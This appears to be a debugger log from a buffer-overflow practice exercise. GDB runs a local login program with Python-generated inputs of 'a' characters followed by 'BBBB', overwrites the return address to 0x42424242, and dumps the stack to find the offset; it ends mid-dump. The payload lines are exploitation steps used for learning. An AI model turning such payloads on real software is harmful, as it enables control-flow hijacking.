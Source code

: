 Starting program: /home/jfc-me/Área de Trabalho/controle_fluxo_programas/controlarFLuxo < <(python -c 'print "a"*32+ "BBBB"')

Senha:

login incorreto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB

Breakpoint 1, 0x56555626 in login ()

**(gdb)** c

Continuando.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()



**(gdb)** x/70xb $esp

0xffffcee0:	0x12	0x57	0x55	0x56	0xfc	0xce	0xff	0xff

0xffffcee8:	0xa9	0xb0	0xe0	0xf7	0xe5	0x55	0x55	0x56

0xffffcef0:	0x00	0x00	0xfb	0xf7	0x00	0x00	0xfb	0xf7

0xffffcef8:	0x00	0x00	0x00	0x00	0x61	0x61	0x61	0x61

0xffffcf00:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61

0xffffcf08:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61

0xffffcf10:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61

0xffffcf18:	0x61	0x61	0x61	0x61	0x42	0x42	0x42	0x42

0xffffcf20:	0x00	0x59	0xfe	0xf7	0x40	0xcf



**(gdb)** x/1wx $ebp

0xffffcf18:	0x61616161

**(gdb)** run < <(python -c 'print "a"*28+ "BBBB"')

The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/jfc-me/Área de Trabalho/controle_fluxo_programas/controlarFLuxo < <(python -c 'print "a"*28+ "BBBB"')

Senha:
login incorreto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB

Breakpoint 1, 0x56555626 in login ()


**(gdb)** x/70xb $esp

0xffffce30:	0x0f	0x57	0x55	0x56	0x4c	0xce	0xff	0xff

0xffffce38:	0xa9	0xb0	0xe0	0xf7	0xe5	0x55	0x55	0x56

0xffffce40:	0x00	0x00	0xfb	0xf7	0x00	0x00	0xfb	0xf7
